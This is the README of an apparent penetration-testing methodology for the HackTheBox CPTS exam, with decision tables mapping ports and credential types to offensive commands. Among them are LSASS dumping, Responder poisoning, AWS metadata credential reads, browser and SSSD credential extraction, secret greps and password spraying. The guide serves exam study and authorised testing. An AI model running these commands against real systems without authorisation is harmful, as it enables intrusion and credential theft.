

# CPTS Penetration Testing Methodology

A comprehensive, exam-ready methodology suite for HackTheBox CPTS certification and general penetration testing engagements.

> **Version Sync**
> - Last structural review: 2026-05-16
> - If phase numbers or section numbers change in any methodology file, update this README workflow map and decision tables in the same edit.

> **Known Constraints**
> - Commands are operator templates. Replace placeholders, validate target-specific assumptions, and check `--help` for tool/version-specific syntax when needed.

> **Lab vs Real Engagement**
> - This methodology is optimized for **lab/exam targets** (HTB, CPTS, OffSec) which intentionally ship older configurations. Many "patched in 2025" techniques (Zerologon, noPac, PetitPotam unauth) still work on these targets.
> - For **real engagements**, watch the OPSEC tags (🟢 quiet · 🟡 logged · 🔴 alert-likely) added throughout `active-directory-methodology.md`, `windows-methodology.md`, `linux-methodology.md`, `web-methodology.md`, and `tunneling-pivoting.md` — operations like DCSync `/all`, LSASS dumping (`comsvcs.dll`/procdump), kernel exploits (PwnKit/Baron Samedit/DirtyPipe), `sqlmap --os-shell`, ysoserial gadgets, and reverse `ssh -R` / bash `/dev/tcp` tunnels look benign here but are high-fidelity IOCs.

> **Placeholder Convention** — used throughout this repo:
> - `<TARGET>` / `<TARGET_IP>` = the box currently under attack (use `<TARGET_IP>` when an IP is required)
> - `<INTERNAL_IP>` / `<INTERNAL_SUBNET>` / `<INTERNAL_DC_IP>` = post-pivot internal targets (role-qualified)
> - `<USER>` / `<PASS>` / `<PASSWORD>` / `<DOMAIN>` = AD credential triple (long form preferred)
> - `<HASH>` / `<HASH_TYPE>` = NTLM/Kerberos hash and its hashcat/john format identifier
> - `<DC_IP>` / `<DC_FQDN>` / `<DC_HOSTNAME>` = Domain Controller (typed by what the command consumes)
> - `<HOST>` / `<HOSTNAME>` = NetBIOS short name (use `<TARGET>` for "the box")
> - `<TIMESTAMP>` / `<TS>` = Unix timestamp suffix on loot directories
> - `<LISTENER>` = attacker-controlled callback IP/host
>
> **New here?** Read **Day 0** first, then **Fast Start (First 15 Minutes)**, then jump to the **File Index**.

---

## Table of Contents

- [Day 0 — Pre-Engagement Setup](#day-0-pre-engagement-setup-before-the-exam-clock-starts)
- [Fast Start (First 15 Minutes)](#fast-start-first-15-minutes)
- [File Index](#file-index)
- [Engagement Workflow](#engagement-workflow)
- [Branch Conditions](#branch-conditions)
- [Quick Decision Trees](#quick-decision-trees)
  - ["I found open ports — now what?"](#i-found-open-ports-now-what)
  - ["I need a foothold — no creds yet"](#i-need-a-foothold-no-creds-yet)
  - ["I need a web vector — what's where in web-methodology.md"](#i-need-a-web-vector-whats-where-in-web-methodologymd)
  - ["I have credentials — now what?"](#i-have-credentials-now-what)
  - ["I need to escalate privileges"](#i-need-to-escalate-privileges)
  - ["I got a foothold — immediate checklist"](#i-got-a-foothold-immediate-checklist)
  - ["I'm stuck — what to try"](#im-stuck-what-to-try)
  - ["I'm pivoting from a foothold — now what?"](#im-pivoting-from-a-foothold-now-what)
  - ["How do I know when to stop enumerating?"](#how-do-i-know-when-to-stop-enumerating)
  - ["My tool just errored — what's the backup?"](#my-tool-just-errored-whats-the-backup)
- [Qualys TRU Arsenal — Linux CVE Quick Reference](#qualys-tru-arsenal-linux-cve-quick-reference)
- [Reporting Workflow — SysReptor](#reporting-workflow-sysreptor-htb-official)
- [Cross-File Canonical References](#cross-file-canonical-references)
- [Exam Tips](#exam-tips)
- [Essential External References](#essential-external-references)

---

## Day 0 — Pre-Engagement Setup (Before the Exam Clock Starts)

> Do this **before** the exam clock starts.

```bash
# 1. Tooling sanity — pin known-working versions
nxc --version                              # NetExec ≥ 1.5.1 (CVE in spider_plus < 1.5.1)
certipy --version                          # Certipy v5.x (Python 3.12+)
bloodhound-ce-python --version             # NOT bloodhound-python — CE schema differs
impacket-secretsdump 2>&1 | head -1        # Fortra impacket ≥ 0.13.0
which kerbrute coercer evil-winrm hashcat john ffuf feroxbuster nuclei sliver chisel ligolo-proxy
reptor --version                           # SysReptor CLI for finding/PDF automation
# If any missing → install BEFORE the clock starts. Exam-day installs eat hours.

# 2. Wordlists — fail-closed if missing
ls /usr/share/seclists/ /usr/share/wordlists/rockyou.txt
# If seclists missing: sudo apt install seclists  OR  git clone github.com/danielmiessler/SecLists

# 3. Engagement directory
mkdir -p ~/cpts-exam/{recon,loot,creds,screenshots,report}
cd ~/cpts-exam
# Pin a single working dir for the entire exam. All recon.py / recon.sh output goes here.

# 4. Note-taking ready (CherryTree or Obsidian)
# Use the structure in reporting/cherrytree-structure.md from minute 1 — back-filling notes loses things.

# 5. Screenshot tool ready
# Flameshot (Linux), greenshot (Win). Test before the exam — a missed screenshot at 2am can fail the report.

# 6. Time budget written down (10 days):
#    Day 1-2  : Enumeration + first foothold attempts
#    Day 3-7  : Exploitation, lateral movement, domain compromise
#    Day 8-10 : Report writing — DO NOT push reporting into Day 9
```

> **Sanity check before scanning:** confirm VPN connectivity, lab IP range, and out-of-scope hosts. Hitting an out-of-scope IP can fail the exam.

---

## Fast Start (First 15 Minutes)

If you just landed on a fresh target or subnet, follow this exact order:

1. Open [enumeration-methodology.md](enumeration-methodology.md) and run Phase 0 for host discovery and DC identification.
2. Run full TCP plus top UDP scans from [enumeration-methodology.md](enumeration-methodology.md) Phase 1.
3. If names, emails, or domains are in scope, build `users.txt` and target-specific wordlists from [enumeration-methodology.md](enumeration-methodology.md) Phase 2.1, Phase 2.6, and Phase 2.7.
4. Move to service-specific playbooks in [enumeration-methodology.md](enumeration-methodology.md) Phase 3.
5. Branch immediately based on findings:
   - HTTP/HTTPS surface: [web-methodology.md](web-methodology.md)
   - Kerberos/LDAP/DC indicators: [active-directory-methodology.md](active-directory-methodology.md)
   - Linux host or Linux shell: [linux-methodology.md](linux-methodology.md)
   - Windows host or Windows shell: [windows-methodology.md](windows-methodology.md)

> **Automation shortcut:** Run `python3 automation/recon.py <TARGET_IP>` to automate Phases 0–3 (host discovery, port scanning, service enumeration). Output is structured under `./recon_<IP>_<timestamp>/` (look for `summary.md` first). Full recon-script reference: [automation/README.md](automation/README.md).

---

## 📁 File Index

| File | Purpose | When to Use |
|---|---|---|
| [enumeration-methodology.md](enumeration-methodology.md) | **Master enumeration reference** — host discovery, port scanning, service-specific enumeration per protocol | **Always start here** — first file you open on every engagement |
| [pentest-process.md](pentest-process.md) | End-to-end engagement workflow — scoping, rules of engagement, phase gates, deliverables | Read before kick-off; revisit at every phase boundary |
| [vulnerability-assessment.md](vulnerability-assessment.md) | Vulnerability scanning, triage, false-positive validation, CVSS prioritisation | After enumeration, before active exploitation — prioritise targets |
| [linux-methodology.md](linux-methodology.md) | Linux foothold, local enum, privilege escalation, credential harvesting | After confirming the target is Linux |
| [windows-methodology.md](windows-methodology.md) | Windows foothold, local privesc (token abuse, services, AMSI bypass), lateral movement | After confirming the target is Windows |
| [active-directory-methodology.md](active-directory-methodology.md) | Full AD attack chain — unauthenticated to domain compromise, ADCS, delegation, trusts | When Kerberos (port 88) is found → AD environment |
| [bloodhound-guide.md](bloodhound-guide.md) | BloodHound Cypher queries, path navigation, edge → action map | After importing BloodHound data — run alongside AD methodology |
| [web-methodology.md](web-methodology.md) | Web app testing — injection, file attacks, CMS exploits, API testing, NoSQL, race conditions | When HTTP/HTTPS services are found |
| [shells-and-payloads.md](shells-and-payloads.md) | Reverse / bind / web shells, payload generation, encoding, staged vs stageless | When you need a shell or to generate a payload |
| [metasploit-framework.md](metasploit-framework.md) | Metasploit reference — modules, Meterpreter, post-exploitation, handlers, pivoting | When using msfconsole/msfvenom — module syntax + workflow |
| [login-brute-forcing.md](login-brute-forcing.md) | Targeted brute-force / spraying — hydra, medusa, netexec, kerbrute, per-protocol templates | When you have a credential surface and need to spray/brute-force |
| [av-evasion.md](av-evasion.md) | AV/EDR evasion — AMSI/ETW bypass, in-memory loaders, signature break, encoder chains | When Defender/EDR is blocking your payload or PowerShell tooling |
| [attacking-common-applications.md](attacking-common-applications.md) | App-specific attack chains — Tomcat, Jenkins, GitLab, Confluence, JBoss, Splunk, etc. | When you fingerprint a known web app and want a tailored playbook |
| [tunneling-pivoting.md](tunneling-pivoting.md) | SSH tunneling, Ligolo-ng, Chisel, socat, sshuttle, DNS tunneling, proxychains | When you need to reach internal networks through a pivot |
| [password-cracking.md](password-cracking.md) | Hash identification, hashcat/john usage, wordlist prep, per-hash cracking strategies | When you capture hashes and need to crack them offline |
| [file-transfers.md](file-transfers.md) | Download/upload methods for Linux and Windows, exfiltration techniques | When you need to transfer tools or data |
| [cheatsheet.md](cheatsheet.md) | **Single-page exam-day quick reference** — all critical commands in one file | During the exam — ctrl+F for any command |
| [Reporting templates and structure](reporting/) | CherryTree structure, screenshot guide, report template | Before you start + when writing the report |
| [mobile-and-thickclient-methodology.md](mobile-and-thickclient-methodology.md) | Mobile (APK/IPA) + thick-client (.NET/Java/Electron) — decompile, runtime intercept, shadow-API recon | When engagement scope includes a mobile app, Windows installer, or Java/.NET fat-client. NOT a CPTS topic. |

---

## 🔄 Engagement Workflow



> **Workflow summary (text fallback):** Discovery → Port scan → Service enum → Branch by surface (Web / AD / Linux / Windows) → Foothold → Privesc → Cred reuse → Domain check → AD chain or Pivot → BloodHound → Domain Compromise / Reporting.

[↑ Back to top](#cpts-penetration-testing-methodology)

---

## Branch Conditions

Use these conditions to decide when to switch files:

| Condition | Primary File | Why |
|---|---|---|
| You only have IPs/subnets and no foothold | [enumeration-methodology.md](enumeration-methodology.md) | Baseline discovery and service identification always comes first |
| Port 80/443/8080/8443 is exposed | [web-methodology.md](web-methodology.md) | Web attack surface needs dedicated testing beyond banner grabs |
| Port 88, 389, 636, or 3268 is present (or 445 plus clear domain artifacts) | [active-directory-methodology.md](active-directory-methodology.md) | These signals strongly indicate domain infrastructure; AD attack paths diverge from standalone host privesc |
| You have a Linux shell or confirmed Linux host | [linux-methodology.md](linux-methodology.md) | Linux privilege escalation and credential harvesting are host-specific |
| You have a Windows shell or confirmed Windows host | [windows-methodology.md](windows-methodology.md) | Windows privesc, token abuse, and lateral movement are host-specific |
| You obtained domain credentials | [bloodhound-guide.md](bloodhound-guide.md) and [active-directory-methodology.md](active-directory-methodology.md) | BloodHound becomes the primary decision engine for escalation |
| You found dual-homed hosts or internal-only services | [tunneling-pivoting.md](tunneling-pivoting.md) | Pivoting becomes part of the core attack path |
| You captured hashes and need to crack them | [password-cracking.md](password-cracking.md) | Hash identification, wordlist prep, and per-hash cracking strategies |
| You need to move tooling, loot, or payloads | [file transfer playbook](file-transfers.md) | Transfer methods should be chosen deliberately based on target constraints |

---

## 🎯 Quick Decision Trees

### "I found open ports — now what?"

| Port | → Do This First | → Then Reference |
|---:|---|---|
| 21 | `ftp <IP>` (try anonymous) | enumeration-methodology.md Phase 3.1 |
| 22 | `nc -nv <IP> 22` (banner grab) + validate host role | enumeration-methodology.md Phase 3.2 → if Linux confirmed, linux-methodology.md Phase 1-2 |
| 23 | `telnet <IP> 23` (banner + try `root`/blank, `admin`/`admin`) | enumeration-methodology.md Phase 3.2 |
| 25 | `smtp-user-enum` | enumeration-methodology.md Phase 3.3 |
| 53 | `dig axfr @<IP> <DOMAIN>` | enumeration-methodology.md Phase 3.4 |
| 80/443 | `whatweb` + `gobuster dir` + `ffuf vhost` | enumeration-methodology.md Phase 3.5 → web-methodology.md Phase 1 |
| 88 | `kerbrute userenum` → **AD environment** | enumeration-methodology.md Phase 3.6 → active-directory-methodology.md Phase 1 |
| 110/143 | `nc -nv <IP> 110` / `nc -nv <IP> 143` (banner) → `hydra -L users.txt -P pass.txt <IP> pop3`/`imap` | enumeration-methodology.md Phase 3.3 |
| 111 | `rpcinfo -p <IP>` → if mountd present: `showmount -e <IP>` | enumeration-methodology.md Phase 3.9 → Phase 3.12 (NFS) |
| 135 | `rpcclient -U "" -N` | enumeration-methodology.md Phase 3.9 |
| 139/445 | `netexec smb --shares` + `--rid-brute` | enumeration-methodology.md Phase 3.8 → windows-methodology.md Phase 1.3 |
| 161/UDP | `snmpwalk -v2c -c public <IP>` (try `private`, `community`); `onesixtyone -c communities.txt <IP>` | enumeration-methodology.md Phase 1.3.1 |
| 389/636 | `ldapsearch -x` | enumeration-methodology.md Phase 3.10 → active-directory-methodology.md Phase 2 |
| 1433 | `netexec mssql` → try `xp_cmdshell` | enumeration-methodology.md Phase 3.13 → windows-methodology.md Phase 2.4 |
| 1521 | `nmap --script oracle-sid-brute,oracle-tns-version -p1521 <IP>` → `odat sidguesser -s <IP> -p 1521` | enumeration-methodology.md Phase 3.23 |
| 2049 | `showmount -e <IP>` → `mkdir /mnt/nfs && sudo mount -t nfs <IP>:/<EXPORT> /mnt/nfs -o nolock` | enumeration-methodology.md Phase 3.12 |
| 3306 | `mysql -h <IP> -u root` | enumeration-methodology.md Phase 3.14 → linux-methodology.md Phase 1.10 |
| 3389 | `xfreerdp /v:<IP>` | enumeration-methodology.md Phase 3.15 → windows-methodology.md Phase 1.13 |
| 5432 | `psql -h <IP> -U postgres` | enumeration-methodology.md Phase 3.22 |
| 5985 | `evil-winrm` | enumeration-methodology.md Phase 3.16 → windows-methodology.md Phase 1.7 |
| 6379 | `redis-cli -h <IP>` | enumeration-methodology.md Phase 3.17 → linux-methodology.md Phase 1.11 |
| 8080/8443 | `whatweb http://<IP>:8080` + `curl -ksI https://<IP>:8443` (Tomcat/Jenkins/JBoss/Confluence/proxies) | enumeration-methodology.md Phase 3.5 → web-methodology.md Phase 1 → attacking-common-applications.md |
| 10000 | `curl -k https://<IP>:10000/` (Webmin) | enumeration-methodology.md Phase 3.28 |
| 11211 | `echo "stats" \| nc <IP> 11211` | enumeration-methodology.md Phase 3.24 |
| 27017 | `mongo --host <IP> --eval "db.adminCommand({listDatabases:1})"` (no auth) → `mongosh "mongodb://<IP>:27017"` | web-methodology.md Phase 3.7 (NoSQL Injection) |

### "I need a foothold — no creds yet"

Pick the path matching the most-promising attack surface from your scan. Run them in priority order — **web is highest-yield on CPTS** (~70% of footholds).

| Surface | First moves | If that fails | Reference |
|---|---|---|---|
| Web (80/443/8080/8443) | `whatweb` + `nuclei -severity high,critical` + `ffuf -mc all -fs <BASELINE>` recursive dir + vhost fuzz | LFI/RFI → log poisoning → RCE; SQLi → web-shell upload; SSTI; deserialization | [web-methodology.md](web-methodology.md) |
| Known web app fingerprinted | Tomcat/Jenkins/GitLab/Confluence/JBoss/WordPress/etc. — straight to that app's playbook | Default creds; auth bypass CVE; plugin RCE | [attacking-common-applications.md](attacking-common-applications.md) |
| SMB null session / guest | `nxc smb <IP> -u '' -p '' --shares --rid-brute` → harvest users + share contents | Try `guest:guest`, `anonymous:` | enumeration-methodology.md Phase 3.8, login-brute-forcing.md |
| Kerberos (88) + user list | ASREPRoast (`impacket-GetNPUsers <DOMAIN>/ -no-pass -usersfile users.txt`) → crack offline | Password spray with seasonal/company patterns | active-directory-methodology.md Phase 1.3 / login-brute-forcing.md |
| LDAP anonymous bind | `ldapsearch -x -H ldap://<IP> -b "DC=...,DC=..."` → harvest user/computer info | Pre-Win2k accounts (timeroast) → `nxc smb -M timeroast` | active-directory-methodology.md Phase 1.2 |
| FTP (21) | Anonymous (`ftp` → `anonymous`/blank) | vsftpd 2.3.4 backdoor; brute-force | linux-methodology.md Phase 2.2 |
| SSH (22) | Banner check + key-based auth attempts | brute-force common users (`hydra ssh://<IP>`); regreSSHion (CVE-2024-6387) — only if 32-bit | linux-methodology.md Phase 2.1 |
| SMTP (25) | `smtp-user-enum -M VRFY -U users.txt -t <IP>` → user list for spraying | Open relay test | enumeration-methodology.md Phase 3.3 |
| SNMP (161/UDP) | `snmpwalk -v2c -c public <IP>` (try `private`, `community`) | Often leaks usernames + processes for free | enumeration-methodology.md Phase 1.3.1 |
| MSSQL (1433) | `nxc mssql <IP> -u sa -p '' --no-bruteforce` (try blank/sa) | brute-force; xp_cmdshell if auth | windows-methodology.md Phase 2.4 |
| Known unpatched OS | EternalBlue (445), BlueKeep (3389), SMBGhost (445), ZeroLogon (DC) | Confirm patch state with nmap NSE first | windows-methodology.md Phase 2.6 |
| LAN access, no creds | `sudo responder -I tun0 -rdw` (LLMNR/NBT-NS poison) — wait 5–15 min | mitm6 IPv6 DNS takeover; ADIDNS wildcard if you have a low-priv account | active-directory-methodology.md Phase 1.6 / 1.7 / 1.8 → password-cracking.md (offline cracking) |
| Phishing-equivalent (CPTS sometimes simulates) | Look for SMB share writable → drop SCF/LNK/HTA → wait for service-account auth → Responder | RBCD/relay if a machine account auths | active-directory-methodology.md Phase 11 (Coercion) |
| Nothing obvious | Re-enum FULL `-p-` + UDP top-200; check vhosts; check non-standard ports | Re-read your nmap — banner versions tell you what to searchsploit | enumeration-methodology.md Phase 1.1, Phase 1.3 |
| Scope includes a client app (APK/IPA/EXE/JAR/Electron) | static decompile → shadow-API discovery → backend recon | n/a (recon-first) | [mobile-and-thickclient-methodology.md](mobile-and-thickclient-methodology.md) |

**Priority ladder** (do these in order before assuming "no foothold"):

1. **Web first** (every web port, every vhost, recursive dir+param fuzz) — highest payoff
2. **Anonymous/guest auth** on SMB, FTP, MSSQL, MongoDB, Redis, Memcached
3. **Username enumeration** via SMB RID, LDAP anon, kerbrute, SMTP VRFY → build users.txt
4. **Password spraying** with users.txt + season/company list — `--pass-pol` first to avoid lockout
5. **ASREPRoast** any user with `DONT_REQUIRE_PREAUTH` (free hash, offline crack)
6. **LAN poisoning if on local segment** (Responder LLMNR/NBT-NS, mitm6 IPv6 DNS takeover, ADIDNS) — passive hash capture
7. **Known CVEs** for the OS/service version banners
8. **App-specific** playbooks for any fingerprinted web app

> **Trap:** don't loop on brute-force when web/anon paths haven't been exhausted. CPTS rarely requires brute-force — it usually wants enumeration insight.

> **Time budget:** 90 minutes per surface before pivoting to the next ladder rung. If 6 hours in with no foothold, re-run enumeration on ALL hosts (not just the focused one).

### "I need a web vector — what's where in web-methodology.md"

Quick index for the most-asked CPTS web injection paths. Phase numbers refer to [web-methodology.md](web-methodology.md).

| Goal | Phase |
|---|---|
| Discover hidden parameters | Phase 1.5 (Arjun, x8, Param Miner) |
| SQL injection (manual + sqlmap) | Phase 3.1 |
| Command injection | Phase 3.2 |
| Server-Side Template Injection (Jinja2/Twig/Velocity/Freemarker) | Phase 3.3 |
| XSS (reflected/stored/DOM) | Phase 3.4 |
| XXE (CDATA OOB, blind DTD, error-based, XXE-to-RCE) | Phase 3.5 |
| LDAP / XPath injection | Phase 3.6 / Phase 3.6b |
| NoSQL injection (MongoDB/Redis) | Phase 3.7 |
| PHP type juggling | Phase 3.8 |
| **Race conditions (single-packet, last-byte sync, dual-packet, Turbo Intruder)** | Phase 3.9 |
| WebSocket testing | Phase 3.10 |
| **HTTP Request Smuggling — CL.TE, TE.CL, TE.TE, HTTP/2 downgrade** | Phase 3.14 |
| **Modern smuggling — TE.0, CL.0, 0.CL, h2c, Apache confusion (Orange Tsai 2024)** | Phase 3.14.1 |
| **Prototype Pollution + SSPP gadget table (Express, Mongoose, http-errors)** | Phase 3.15 |
| Mass assignment / HPP | Phase 3.16 |
| **Web LLM attacks — prompt injection, indirect injection, excessive agency** | Phase 3.17 |
| LFI / LFI→RCE / RFI / Path traversal | Phase 4.1-4.4 |
| File upload bypasses | Phase 4.5 |
| IDOR | Phase 5.1 |
| SSRF (incl. cloud metadata IMDSv1/v2, Azure, GCP) | Phase 5.3, Phase 7.3 |
| CSRF | Phase 5.4 |
| Insecure deserialization | Phase 5.5 |
| CORS misconfiguration | Phase 5.6 |
| **Web Cache Poisoning + Deception (parser delimiters: `;`/`.`/`%00`/`%0a`)** | Phase 5.7 |
| GraphQL attacks (intro/batching/aliases) | Phase 6.3 |
| Werkzeug / padding-oracle / cloud-meta SSRF | Phase 7.1-7.3 |
| WordPress / Joomla / Drupal / Tomcat / Jenkins | Phase 8.1-8.5 (also `attacking-common-applications.md`) |

### "I have credentials — now what?"

**Always-do (any cred type):**
1. Test against ALL services: `nxc smb/winrm/rdp/mssql/ssh <SUBNET>/24 -u '<USER>' -p '<PASS>'` (look for `(Pwn3d!)`)
2. Check shares: `nxc smb <SUBNET>/24 -u '<USER>' -p '<PASS>' --shares`
3. Password policy first: `nxc smb <DC_IP> -u '<USER>' -p '<PASS>' --pass-pol` (before any further spray)
4. Full checklist: [enumeration-methodology.md](enumeration-methodology.md) Phase 4.1-4.3

**Cred-type → action matrix** (run in order; stop when one works). Source matters — **GPP cpassword and unattend.xml passwords are auto-decryptable**, kerberoasted hashes need cracking first.

| Cred source | Cred type | First (no spending time) | Second | Third |
|---|---|---|---|---|
| GPP (SYSVOL Groups.xml) | cleartext | `gpp-decrypt <cpassword>` → cleartext, then nxc spray | spray subnet | reuse against linked services |
| Unattend / sysprep XML | cleartext | grep `<Password>` directly — already plaintext | nxc admin spray | check linked Auto-login |
| LSASS dump (mimikatz) | NTLM/TGT/cleartext | already enriched — try cleartext first, then NTLM PtH | DCSync if user is DA | Pass-the-Ticket if TGT cached |
| Kerberoast crack | cleartext (post-crack) | nxc spray svcs sharing creds | check DCSync rights | lateral as svc account |
| Kerberoast (uncracked) | TGS hash | `hashcat -m 13100 hash.txt rockyou.txt -r best64.rule` | run AS-REProast siblings | switch boxes while cracking |
| ASREPRoast crack | cleartext | nxc spray | check linked privs | — |
| netexec/manual cleartext (user) | cleartext | `nxc smb/winrm/mssql/rdp -u U -p P` | `bloodhound-ce-python -c All` | Kerberoast/ASREPRoast siblings |
| Service account cleartext | cleartext | check SPN — kerberoast adjacent svcs | lateral as svc | DCSync if svc has replicate |
| LAPS (`netexec --laps`) | local admin cleartext | PtH/cleartext local on the machine it's for | LSASS dump → more creds | move host-to-host |
| NTLM hash (user) | hash | `nxc smb -H <hash>` admin shares | PtH lateral | DCSync if DA |
| NTLM hash (machine$) | hash | S4U2self via `getST.py -self -impersonate Administrator` | SCCM client push (Phase 13) | Coerce + relay (Phase 11.0) |
| Kerberos TGT (cached) | ticket | `klist`, `nxc -k -no-pass` | Pass-the-ticket | Constrained delegation chain |
| ADCS cert (PFX) | cert | `certipy auth -pfx` → TGT/NTLM | PKINIT auth | UnPAC-the-Hash |
| Local admin hash | hash | PtH local for LSASS dump | cached creds (`mimikatz lsadump::cache`) | DPAPI vault |
| dMSA cert/TGS | ticket | DCSync if linked-to-DA | otherwise impersonate via S4U as target | — |
| DPAPI master key | derived secrets | `mimikatz dpapi::*` to decrypt vault/credman | recover RDP creds, browser pw | look for `*.kdbx` (KeePass) for second crack |
| KeePass `*.kdbx` file | encrypted DB | `keepass2john Database.kdbx > kp.hash; hashcat -m 13400 kp.hash rockyou.txt -r best64.rule` | open in `keepassxc` with cracked master, dump entries (incl. attachments/notes) | spray every entry across SMB/WinRM/RDP/SSH/web logins |
| Browser saved (Chrome/Edge/Brave) | encrypted blob + DPAPI key | Win: `SharpChrome.exe logins /unprotect` (uses current user DPAPI) — or copy `Login Data` + `Local State` and run offline with `lazagne browsers all` | Linux: `lazagne browsers all` against `~/.config/google-chrome/Default/Login Data` | spray decrypted creds; check for VPN/SSO/admin-panel reuse |
| SSH private key (`~/.ssh/id_*`, `*.pem`) | private key (maybe encrypted) | encrypted: `ssh2john id_rsa > k.hash; hashcat -m 22921 k.hash rockyou.txt` | unencrypted: `chmod 600 id_rsa && ssh -i id_rsa user@<HOST>` | enumerate `~/.ssh/known_hosts` + `authorized_keys` for lateral targets |
| Memory strings / LSASS dump | cleartext fragments + NTLM/TGT | `procdump -ma lsass.exe lsass.dmp` (or `nanodump`) → `pypykatz lsa minidump lsass.dmp` | also: `strings lsass.dmp \| grep -iE 'pass\|pwd\|secret\|token'` | PtH/Pass-the-Ticket; DCSync if user is privileged |
| JWT / Bearer token | signed token | decode header/payload: `jwt-tool -t <TOKEN>` (or `python3 -c 'import jwt,sys;print(jwt.decode(sys.argv[1],options={"verify_signature":False}))' <TOKEN>`); test `alg:none`, weak HS256: `hashcat -m 16500 jwt.txt rockyou.txt` | resign with cracked secret: `jwt-tool -t <TOKEN> -T -S hs256 -p <SECRET>` | replay against API endpoints; pivot to admin scope via tampered `role`/`sub` claims |
| Git history / `.git-credentials` / `.git/config` | cleartext URL creds, tokens | `cat .git-credentials .git/config; git log -p \| grep -iE 'pass\|token\|api[_-]?key\|secret'`; `gitleaks detect --source . --no-banner` | `trufflehog filesystem . --only-verified` for secret detection across all branches | use exposed PAT/API tokens for repo/CI/cloud lateral; spray creds across linked services |
| AWS credentials file (`~/.aws/credentials`, env vars, IMDS) | static keys / session token | `aws sts get-caller-identity --profile <P>`; `cat ~/.aws/credentials ~/.aws/config; env \| grep AWS_` | enum perms: `aws iam list-attached-user-policies --user-name <U>`; on EC2: `curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/` | full post-theft chain → [linux-methodology.md §5.1e](linux-methodology.md#51e-cloud-credentials-post-theft-chain-enumeration) (`enumerate-iam` / `pacu` / `cloudfox` privesc paths, AssumeRole walk, additive-only markers); container/serverless variants → [§5.1f](linux-methodology.md#51f-ecs-fargate-lambda-eks-irsa-azure-app-service-task-credentials); ReadOnly first per safety rules — never destructive |
| `.env` / config files (`.env`, `config.php`, `appsettings.json`, `web.config`) | cleartext app secrets | `find / -name '.env' -o -name 'config.php' -o -name 'appsettings.json' -o -name 'web.config' 2>/dev/null`; `grep -riE 'password\|secret\|api[_-]?key\|connection[_-]?string\|DB_PASS' /var/www /opt /home 2>/dev/null` | parse DB connection strings → `mysql/psql/sqlcmd` direct | spray DB/app creds; pivot via discovered API keys (Stripe, SendGrid, Slack, Twilio) |
| SSSD cache (`/var/lib/sss/db/cache_*.ldb`) | cached domain hashes | `sudo cp /var/lib/sss/db/cache_<DOMAIN>.ldb /tmp/ && python3 sssd_decrypt.py /tmp/cache_*.ldb` (or `impacket-sssd` if available) | extract hashes → `hashcat -m 1800` (sha512crypt) for cached domain user | crack offline → reuse domain creds against AD services (SMB/WinRM/LDAP) |

### "I need to escalate privileges"

| OS | First Steps | Reference |
|---|---|---|
| **Linux** | `sudo -l` → GTFOBins, `find / -perm -4000`, `getcap -r /`, `cat /etc/crontab` | [linux-methodology.md Phase 4](linux-methodology.md#phase-4-privilege-escalation) |
| **Windows** | `whoami /priv` → Token abuse, `winPEAS`, check services | [windows-methodology.md Phase 4](windows-methodology.md#phase-4-local-privilege-escalation) |
| **AD** | BloodHound → Shortest path to DA, Kerberoast, ACL abuse | [active-directory-methodology.md Phase 3-5](active-directory-methodology.md#phase-3-credential-attacks) |

### "I got a foothold — immediate checklist"

```text
1. Stabilize shell (python3 pty + stty raw -echo for Linux; runas /netonly for Windows)

2. Run on-host recon (replaces manual enum below — categorized output + priority findings)
   Linux  : bash recon.sh                               (no Python required)
            python3 recon.py --mode host                (Python equivalent)
   Windows: powershell -ep bypass -f recon.ps1
   → Output: ./loot_<HOST>_<TIMESTAMP>/  (read summary.md FIRST — priority findings on top)

3. Read summary.md priority findings — typically flags:
   - SUID pkexec / writable /etc/shadow / sudo NOPASSWD (Linux)
   - SeImpersonate / AlwaysInstallElevated / writable services (Windows)
   - Multi-NIC (pivot candidate)
   - Domain-joined → switch to active-directory-methodology.md
   - WSUS HTTP / Defender exclusions / SAM readable

4. If recon scripts unavailable (locked-down target, no python/bash, restricted shell):
   Linux  : id; uname -a; ip a; sudo -l; find / -perm -4000 -type f 2>/dev/null
   Windows: whoami /all; whoami /priv; systeminfo; ipconfig /all; cmdkey /list

5. Test every found credential against every host (do this BEFORE going deeper):
   nxc smb/winrm/rdp/mssql/ssh <SUBNET>/24 -u 'USER' -p 'PASS'
   Look for (Pwn3d!) — that's lateral movement for free.

6. Escalate based on findings:
   Linux   → linux-methodology.md Phase 4 (privesc primitives)
   Windows → windows-methodology.md Phase 4 (token abuse, services, AMSI bypass)
   AD      → active-directory-methodology.md (BloodHound + Phase 3-7 chain)
```

> **Time budget for foothold work:** if recon scripts produce no priority findings AND no obvious lateral move within 90 minutes, **stop and re-enumerate other hosts**. Don't tunnel-vision.

### "I'm stuck — what to try"

- [ ] Re-run [enumeration](enumeration-methodology.md) on ALL hosts (not just the one you're focused on)
- [ ] Check [UDP ports](enumeration-methodology.md#13-udp-scanning): `sudo nmap -sU --top-ports 50 <IP>`
- [ ] Try harder [password spraying](active-directory-methodology.md#15-password-spraying) (Season+Year!, Company+123)
- [ ] Re-read gobuster/feroxbuster output — missed a [directory](web-methodology.md#12-directory--file-enumeration)?
